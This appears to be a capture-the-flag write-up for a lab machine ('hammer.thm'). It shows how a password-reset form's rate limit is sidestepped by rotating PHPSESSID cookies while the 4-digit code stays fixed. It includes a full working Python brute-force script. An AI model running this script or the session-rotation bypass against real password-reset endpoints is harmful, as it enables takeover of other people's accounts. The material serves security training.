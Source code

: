 # Brute forcing 4-digit code

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (refer to step 3)&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**(3)** Send recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (`/reset_password.php`) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work by itself when brute forcing the code.

### Attempting to brute force the code

1.  It appears that the application implements a rate limiting feature on the recovery code functionality. For a given `PHPSESSID`, we are only allowed 8 attempts within the window period, before it blocks any further requests. To workaround this, we have to retrieve a new `PHPSESSID` after every 8 brute force attempts. This can be done by **(#1)** sending a GET request to `/index.php`, with no cookies, before **(#2)** sending a POST request to `/reset_password.php` with the new cookie retrieved.

    * The flaw is in the way the application handles this process. When we perform step **(#1)**, the application simply associates our new cookie with the email, but fails to generate a new 4-digit code. Thus, this allows us to indefinitely reset our `PHPSESSID` session (without the 4-digit code changing), and eventually retrieve the correct code with _100%_ success rate.
    * This defeats the purpose of the rate limiting feature.



**Python script to brute force the 4-digit recovery code with&#x20;**_**100%**_**&#x20;success rate:**

```python
import requests

IP = input('[!] Enter the target IP address: ')

N = 8
MAX_CODE = 9999
PORT = 1337
URL = f'http://{IP}:{PORT}'
EMAIL = 'tester@hammer.thm'

headers = {
    'Host': f'{IP}{PORT}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
}


def retrieve_new_session():
    with requests.Session() as s:
        # session is updated automatically
        s.get(f'{URL}/index.php', headers=headers)

    return s


def enter_email(s):
    data = {
        'email': EMAIL
    }

    s.post(f'{URL}/reset_password.php',
           headers=headers, data=data)


def brute_force():

    try:

        # retrieve initial session
        s = retrieve_new_session()

        # enter email
        enter_email(s)

        iterations = MAX_CODE+1

        for i in range(iterations):

            if i % N == 0 and i != 0:
                print('[INFO] Retrieving new PHPSESSID')

                # request for a new PHPSESSID
                s = retrieve_new_session()

                # enter email
                enter_email(s)

            code = f'{i:04d}'

            data = {
                'recovery_code': code,
                's': 200
            }

            print(f'[INFO] Trying code={code}')

            res = s.post(f'{URL}/reset_password.php',
                         headers=headers, data=data)

            res_text = res.text
            res_status_code = res.status_code
            res_content_length = len(res.text)
            req_cookies = s.cookies.get_dict()

            # print(res_text)

            print(f'[INFO] status={res_status_code} content_length={
                res_content_length} cookies={req_cookies}')

            # wrong code
            if 'Invalid or expired recovery code!' in res_text:
                print('[INFO] Wrong code!')

            # valid code found
            else:
                print('[INFO] Success!')
                print(f'code={code}')
                exit()

    except KeyboardInterrupt:
        exit()


brute_force()

```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
